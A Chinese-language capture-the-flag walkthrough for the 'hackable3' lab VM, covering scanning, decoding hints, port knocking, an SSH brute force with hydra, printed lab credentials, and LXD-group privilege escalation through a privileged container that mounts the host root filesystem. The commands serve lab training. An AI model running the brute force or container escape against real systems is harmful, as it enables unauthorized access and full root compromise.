# hackable3

## 前言

这里使用`virtual box`加载靶机

靶机：`hackable3`

攻击：`kali`


## 主机发现

使用`arp-scan -l`扫描




## 信息收集

使用`nmap`扫描




这里明显：

1. 22端口ssh服务可能过滤了
2. 80端口开启`apache`的`http`服务


## 网站目录扫描

使用`dirsearch`扫描，或者`gobuster`、`ffuf`、`dirb`、`dirbuster`等




## 进一步信息收集

测试22端口是否可用，可能设置条件了




直接访问页面，并查看源代码




根据上面的目录扫描，访问HTTP服务

访问`/robots.txt`	文件，这个目录算是信息泄露




访问`/config`，有一个`1.txt`文件，打开后是经过编码处理的数据，尝试解码




经`base64`解码后，是一串数字`10000`，不过这也不确定是否是`base64`编码

继续访问其他目录`/backup`

访问发现有一个`txt`文件，访问发现算是字典




登录界面的源码`/login.php`




首先是POST接收，那么就需要使用`burp`进行测试

分析

1. 首先接收`user`赋值给`usuario`，接收`pass`赋值给`senha`
2. 从数据库中查询表`usuarios`，对用户的输入进行判断。正确会返回数据库的值
3. 当数据库有返回的时候，会把用户名赋值给`session`

这里还有一张图片，并且没有路径，可能在当前目录下，直接访问，使用`wget`下载到本地

然后使用`steghide`检测是否有隐藏信息，这里如果有`passphrase`的话，是需要输入的，这里并不知道，直接回车




访问`login_page/login.html`




访问`/config.php`文件，这里提示，默认设置`root`无密码，对于`mysql`服务




访问`css`目录，访问发现`2.txt`，打开也是一段编码的字符




尝试进行解码，之前碰到过，其实就是`brain`




## 信息总结

1. 可能有用户`jubiscleudo`
2. 获取两个端口，`65535、10000`和`4444`
3. 数据库是`mysql`数据库
4. 连接数据库的用户`root`没设置密码
5. `login.php`可以返回表的所有数据
6. 有一个字典


## 漏洞寻找

在 Linux 系统中有一个名为 “knock” 的命令行工具，它用于实现端口敲门功能。通过这个工具，用户可以在命令行下轻松地发送端口敲门序列。例如，如果要按照前面提到的端口序列（1000、2000、3000）进行敲门，在安装并配置好 “knock” 工具后，可以使用类似 “knock < 服务器 IP 地址 > 1000 2000 3000” 的命令来触发服务器上对应的安全策略。


根据上面来说，是进行了安全策略，需要按照之前获取的`1.txt、2.txt、3.txt`所解出的端口进行顺序

简单来说，就是像一种暗号一样，对了才能访问SSH服务




现在可以正常访问`ssh`服务，然后根据前面获取的，可能存在用户`jubiscleudo`，也给出一个字典，尝试对其进行爆破

```shell
hydra -l jubiscleudo -P wordlist.txt ssh://192.168.1.38 -vV -f
//该字典使用的是网站给出的
```




## 漏洞利用

获取成功，密码为`onlymy`，登录，然后发现还有一个用户。




使用`find`寻找具有SUID权限




尝试使用`sudo`进行查看




这样提权不行，搜索一些敏感文件的关键字，如`*user*、*pass*、*back*`等等




发现之前没有看到的php文件，去查看，可以看到在进行与`mysql`服务连接时，设置的用户名和密码




用户名`hackable_3`，密码`TrOLLED_3`，不过这里的密码是作为数据库连接的，不知道是否是其本身密码

测试发现可以，就是其密码，这里需要注意，`id`命令时的`lxd`




尝试`sudo`提权，发现不行




## lxd提权

#### 环境配置

`https://github.com/saghul/lxd-alpine-builder.git`从这里下载项目




以`root`身份进行搭建




然后在该目录下开启一个简易的http服务，然后在靶机中下载




使用`lxc`导入该包到镜像中，并起别名为`test`

```shell
lxc image import ./alpine-v3.13-x86_64-20210218_0139.tar.gz --alias test
```

然后使用`lxc image list`列出镜像




进行`lxd`初始化，一直回车即可




#### 提权使用

生成一个初始化容器

```shell
lxc init test dijia -c security.privileged=true
//这里的test就是前面初始化的镜像别名
```






把磁盘挂载

```shell
lxc config device add dijia mydevice disk source=/ path=/mnt/root recursive=true
```

启动创建的dijia容器

```shell
lxc start dijia
```




容器执行`/bin/sh`

```shell
lxc exec dijia /bin/sh
```

